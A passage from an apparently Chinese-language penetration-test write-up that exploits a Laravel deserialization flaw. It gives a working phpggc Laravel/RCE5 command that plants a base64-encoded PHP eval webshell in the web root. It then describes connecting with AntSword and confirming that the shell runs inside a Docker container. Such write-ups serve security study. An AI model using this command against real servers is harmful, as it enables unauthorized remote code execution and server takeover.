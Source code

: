我们可以利用该漏洞写入Webshell：

php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "system('echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4=|base64 -d > /var/www/html/shell.php');" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"

重复上述利用步骤后，成功写入webshell并连接成功：

![img](assets/1700555904989-4890f128-7911-4bc4-802b-be872dab92ed.jpeg)

我们在使用蚁剑执行命令时发现目标主机的主机名有点显眼，可能我们那下的shell处于一个容器环境：

![img](assets/1700555904961-c22173c5-2803-419f-bf38-44533f5098bb.jpeg)

使用如下命令进行测试，我们发现我们获得的shell确实运行在一个docker容器内：

cat /proc/self/cgroup

![img](assets/1700555905203-60f547be-3fd3-4158-9743-3f5d13da5db9.jpeg)
